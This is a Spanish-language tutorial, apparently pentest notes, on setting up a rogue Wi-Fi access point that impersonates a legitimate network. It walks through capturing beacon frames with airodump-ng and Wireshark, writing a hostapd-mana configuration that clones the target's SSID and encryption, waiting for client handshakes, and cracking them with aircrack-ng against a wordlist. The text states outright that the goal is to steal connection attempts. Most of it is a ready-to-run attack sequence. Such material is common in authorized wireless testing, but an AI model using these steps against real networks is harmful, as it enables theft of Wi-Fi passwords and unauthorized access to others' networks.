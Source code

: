 # Intro

Un Rouge access point es todo AP no autorizado por un administrador de redes local.

Cuando un cliente se conecta a una red la guarda como favorita dentro de los PNL. De esta manera puede volver a conectarse automáticamente cuando se encuentre en el rango de señal de la misma.
Muchas empresas usan varias redes con el mismo nombre y configuración para cubrir espacios grandes en sus oficinas. De esta manera, cuando el usuario camina por la oficina y comienza a salir del rango de la red "A" y comienza  captar la red "B", el dispositivo se reconecta automáticamente a la red "B".

Podemos crear nuestros propios Rouge AP con el fin de robar intentos de conexión desde dispositivos con la red legítima.


# El Ataque

### Discovery

Aunque en algunos casos se requiere solamente el ESSID de la red, el ataque funciona mejor si conseguimos también el modo de encriptación de la misma (esto se debe a que el PNL muchas veces guarda la clave encriptada y la envía, si no tenemos el mismo tipo de encriptación, se vuelve casi imposible)

#### 1) Captamos información de la red que vamos a spoofear.

    sudo airodump-ng -w discovery --output-format pcap <interfaz>

#### 2) abrimos el pcap en wireshark y buscamos los Beacon frame packets con el filtro

    wlan.fc.type_subtype == 0x08 && wlan.ssid == "<ESSID>"

#### 3) Del paquete, dentro de la trama wireless management/Tagged parameters extraemoslo que necesitamos para crear el archivo de configuración

#### 4) Creamos el archivo de configuración .conf

    1 interface=<interfaz>
    2 ssid=<ESSID>
    3 channel=<channel>
    4 ieee80211n=1
    5 hw_mode=g
    6 wpa=3
    7 wpa_key_mgmt=WPA-PSK
    8 wpa_passphrase=NOTHING
    9 wpa_pairwise=<pairwise>(ejemplo TKIP CCMP)
    10 rsn_pairwise=<rsn>(ejemplo TKIP CCMP)
    11 mana_wpaout=/home/kali/<.hccapx>

#### 5) levantamos la red

    sudo hostapd-mana <.conf>

Luego de esto esperamos a que se capture un handshake


6)Crackeamos el  handshake con aircrack

    aircrack-ng <.hccapx> -e <ESSID> -w <dictio>
